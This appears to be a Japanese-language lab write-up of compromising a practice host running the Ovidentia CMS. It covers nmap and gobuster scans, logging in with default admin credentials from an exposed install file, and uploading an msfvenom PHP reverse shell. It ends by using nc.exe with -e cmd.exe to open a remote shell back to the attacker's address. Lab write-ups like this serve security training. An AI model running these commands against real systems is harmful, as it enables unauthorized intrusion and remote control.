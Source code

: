 ```
nmap -Pn -vvv -n -sV -oA nmap/intial 10.11.1.73
nmap -Pn -sC -sV -p 135,139,445,554,1100,2869,3306,5357,5800,5900,8080,10243,49152,49153,49154,49155,49156,49157,49183 -oA nmap/base_script 10.11.1.73
nmap -Pn -n -vvv --script=vuln -oA nmap/vuln 10.11.1.73
```
```
gobuster dir -u http://10.11.1.73:8080/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://10.11.1.73:8080/php -w /usr/share/wordlists/dirb/common.txt
```
/PHP/install/install.txtに   
Login with the following data at the prompt:   
	User    : admin@admin.bab   
	Password: 012345678    
これでAdministratorとしてログインする    
「File manager」でフォルダを作成し編集権限を与える   
ファイルのアップロードを使いリバースシェルをアップロードする   
```
 msfvenom -p php/reverse_php LHOST=192.168.119.243 LPORT=4444 -o shell.php
 ```
  "sites" > "ovidentia" > "web services"に移動   
ユーザーと管理者にすべてへのアクセスを許可   
- "Sites" > "ovidentia" > "File upload configuration" に移動    
-デフォルトでは「C:/wamp/www/PHP/upload」となっているので「upload」を作成したいフォルダーの名前に変更。   
 例: 「C:/wamp/www/PHP/myfolder」    
- 「File Manager " >　「add」    
-  名前にはディレクトリ名「myfolder」を入れる      
-　「update」を押すとフォルダが作成される      
http://10.11.1.73:8080/PHP/myfolder/fileManager/collectives/DG0/123/shell.php を実行するとリバースシェルが帰ってくる     
```
nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.119.243] from (UNKNOWN) [10.11.1.73] 63452
whoami
gamma\jill
```
すぐに切断させるのでもう一つリバースシェルを貼るために「nc.exe」をアップロードする   
shell.phpでシェルを取ったら直ぐに   
```
.\nc.exe -nv 192.168.119.243 4445 -e C:\windows\system32\cmd.exe
```
を実行しシェルを貼り直す
```
nc -lvnp 4445
listening on [any] 4445 ...
connect to [192.168.119.243] from (UNKNOWN) [10.11.1.73] 49423
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\wamp\www\PHP\myfolder\fileManager\collectives\DG0\123>
```